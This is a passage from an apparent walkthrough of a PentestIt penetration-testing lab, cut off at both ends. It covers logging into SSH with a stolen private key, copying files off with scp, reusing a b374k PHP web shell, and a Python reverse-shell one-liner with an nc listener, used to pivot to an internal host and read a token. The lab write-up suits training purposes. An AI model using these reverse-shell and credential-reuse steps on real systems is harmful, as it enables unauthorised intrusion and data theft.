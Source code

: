 We have some problem with the certificate to signing java applets.

So, in the Java settings you need to add host 172.16.0.3 to the java exceptions. And you will see some java pop up notification, it is ok, put a tick and run it."

Keep it in mind. Now we can try to attack the SSH servers, we have the westfall private key.

## SSH

Ok, we have the westfall private key and an ssh server to 192.168.101.7. Open the terminal and type:

sudo ssh -i westfall_key.txt westfall@192.168.101.7

With the paramater -i we are telling to ssh command to use the private key. We are logged in, navigate to ../davis and you will get ssh token. As you can see there is a ssh.key and a debug folder. As a penetration tester, you need to collect all information you find. So we need to download them. Exit from ssh command shell, remember the path of files and type:

sudo scp -i westfall_key.txt westfall@192.168.101.7:../davis/ssh.key /home/cristiano/Scrivania

Now download the debugs folder:

sudo scp -r -i westfall_key.txt westfall@192.168.101.7:../davis/debugs /home/cristiano/Scrivania

Now we have another private key, maybe it can be usefull for ssh-dev.

## SSH-DEV

For ssh-dev it's more complicated. We can't ping it from the external network, in fact we can't ping it. We can try to ping it from cabinet to check if we can reach it from the internal network. Reupload the b374k shell, go into terminal tab and try to execute:

ping 172.16.0.3

It works, so we can comunicate to ssh-dev from cabinet. We need to open a reverse shell into cabinet to perform the attack. Type into your PC terminal:

sudo nc -lvp 80

Now we are listening on port 80. Into PHP shell type:

python -c "import sys,socket,os,pty; _,ip,port=sys.argv; s=socket.socket(); s.connect((ip,int(port))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn('/bin/bash')" 10.10.X.X 80

Remember to use your PenTestIt VPN IP. We are telling to cabinet to reverse the connection from cabinet to our port 80. Upload the westfall private key from picture upload form and execute the command:

ssh -i westfall_key.txt westfall@172.16.0.3 Execute ls, there is a token.txt file. To see the content of the file just type:

cat token.txt

And we get token of ssh-dev.

## PORTAL
